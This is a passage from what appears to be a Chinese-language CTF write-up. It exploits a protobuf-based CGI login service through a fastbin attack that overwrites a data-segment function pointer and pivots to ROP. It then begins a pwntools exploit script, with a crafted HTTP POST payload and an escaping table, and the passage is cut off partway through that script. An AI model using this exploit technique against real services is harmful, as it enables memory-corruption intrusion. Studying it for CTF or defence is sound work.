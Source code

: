 [![](assets/1706958480-c1dcd9378056d4658ea815805afdd80a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240130151309-05afcbcc-bf3f-1.png)

通过以上方式可以构造一个`fastbin attack`。之后可以通过`fastbin attack`去修改 data 段的函数指针，跳转到 ROP 最终完成利用（PS：这里很有趣的一点是，如果没有 protobuf 存储在 data 段上的函数指针，在开启 Full RELRO 的情况下也无法完成利用）

完整的利用脚本如下：

```plain
#!/usr/bin/env python3
from pwn import *
context.arch = "amd64"
context.log_level = "debug"

# POST /cgi-bin/login.cgi HTTP/1.1
# Accept: application/json, */*
# Accept-Encoding: gzip, deflate
# Connection: keep-alive
# Content-Length: 171
# Content-Type: application/json
# Host: 192.168.64.135:8080
# User-Agent: HTTPie/1.0.3
# 
# {"data": "BICWCZDNNFXBEK3IOR2HA4Z2F4XXO53XFZ4W65LUOVRGKLTDN5WS653BORRWQP3WHUWVC4LQIV3E4MSYMQ4BQAQ", "timestamp": 61866, "data": "aaaa\u" aaaaaaaabaaaaaaacaaaaaaadaaaaaaa"}

blacklist_dict = {
    b"\b": b"\\b",
    b"\f": b"\\f",
    b"\n": b"\\n",
    b"\r": b"\\r",
    b"\t": b"\\t",

    b";": b"\\u003b",
```